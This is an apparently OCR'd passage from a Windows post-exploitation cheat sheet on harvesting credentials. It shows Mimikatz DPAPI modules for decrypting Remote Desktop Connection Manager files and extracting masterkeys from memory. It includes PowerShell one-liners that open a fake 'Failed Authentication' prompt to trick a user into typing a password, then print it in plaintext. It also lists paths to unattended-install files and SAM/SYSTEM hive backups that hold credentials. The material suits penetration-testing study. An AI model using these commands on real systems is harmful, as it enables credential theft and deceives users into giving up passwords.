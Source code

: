 ### **Remote Desktop Credential Manager**

```text
%localappdata%\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
```

Use the **Mimikatz** `dpapi::rd`g module with appropriate `/masterkey` to **decrypt any .rdg files**  
You can **extract many DPAPI masterkeys** from memory with the Mimikatz `sekurlsa::dpapi` module

### Ask for credentials

You can always **ask the user to enter his credentials of even the credentials of a different user** if you think he can know them \(notice that **asking** the client directly for the **credentials** is really **risky**\):

```text
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'anotherusername',[Environment]::UserDomainName); $cred.getnetworkcredential().password
```

### Common files with credentials

#### Unattended files

```text
C:\Windows\sysprep\sysprep.xml
C:\Windows\sysprep\sysprep.inf
C:\Windows\sysprep.inf
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\System32\Sysprep\unattend.xml
C:\Windows\System32\Sysprep\unattended.xml
C:\unattend.txt
C:\unattend.inf
```

#### SAM & SYSTEM backups

```text
C:\Windows\repair\SAM
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\SAM
C:\Windows\repair\SYSTEM
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\RegBack\SYSTEM
```

#### McAffe SiteList.xml

Search for a file called **SiteList.xml**
